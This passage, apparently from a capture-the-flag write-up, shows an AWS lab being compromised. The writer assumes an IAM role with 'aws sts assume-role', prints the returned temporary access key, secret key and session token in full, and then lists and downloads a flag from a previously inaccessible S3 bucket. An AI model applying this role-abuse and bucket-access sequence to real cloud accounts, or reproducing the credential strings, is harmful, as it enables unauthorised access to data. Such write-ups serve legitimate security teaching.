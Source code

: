 ```bash
                {
                    "Action": [
                        "codedeploy:BatchGet*",
                        "codedeploy:Get*",
                        "codedeploy:List*"
                    ],
                    "Resource": [
                        "arn:aws:codedeploy:us-east-2:852948644505:application:crimerecordmgmt",
                        "arn:aws:codedeploy:us-east-2:852948644505:deploymentgroup:crimerecordmgmt/crimerecordmgmt-Env",
                        "arn:aws:codedeploy:us-east-2:852948644505:deploymentconfig:*"
                    ],
                    "Effect": "Allow"
                }
            ]
        },
        "VersionId": "v2",
        "IsDefaultVersion": true,
        "CreateDate": "2022-03-28T11:47:34Z"
    }
}
```

This policy has interesting privilege set. Using `sts:AssumeRole` we can switch to that role and can access whatever that role has privileges to.

```bash
aws sts assume-role --role-arn arn:aws:iam::852948644505:role/CallRecords --role-session-name test-role-identity
{
    "Credentials": {
        "AccessKeyId": "ASIA4NF5TOKM4OBE3WMT",
        "SecretAccessKey": "nI3UVDcqrScHzJ0US4cjQMNnj7PgcTmbhQTd6f+U",
        "SessionToken": "FwoGZXIvYXdzEL3//////////wEaDIG/g5grJ0wbpoIqiyK2AZE+GJu0Ef7qQNkjl20u/Q8yxPtUK/20vwWuO07HtQc9VxNBBv5QW1HLkaoJPBcHDsmZlN93ba0k7/hZuBzeXi5XMutvx23a4j8SJ5/sJVX9PMfVWQQhAQdavsxQq+pb20Pn7rzKvmvTIpsl1uKh/CbQ0Z/OJlcccHLOvm4HfUonZOPdxtieF5tSpCF3Z8an6B8/lBgql0FU0o07bmRz1MeQx1nBXglalR/i4f5xHKCFF2AoKix1KKWD2ZIGMi1F19o36u/m60PPYhMa5+ya2fYKLFdOqCgqDHbj1nbgcF6r4uF5IWLlBrlbdjg=",
        "Expiration": "2022-04-13T04:21:09Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "AROA4NF5TOKM42T7TUG22:test-role-identity",
        "Arn": "arn:aws:sts::852948644505:assumed-role/CallRecords/test-role-identity"
    }
}
```

Configuring the credentials we can switch to the `CallRecords` role. Earlier we saw that there is a `call-records-1435289453` bucket which we don't have access to. Let's try to list the bucket.

```bash
aws s3 ls s3://call-records-1435289453
2022-04-12 22:52:07    2229552 bella-ciao.mp3
2022-04-12 22:52:04         44 flag.txt
```

Fun part that we've a song file dropped in the bucket. Flag can be downloaded using `cp` option.

```bash
aws s3 cp s3://call-records-1435289453/flag.txt .
cat flag.txt
ACVCTF{1m_0v3rfl0wn_w1th_s0_m4ny_m1sc0nf1gs}
```
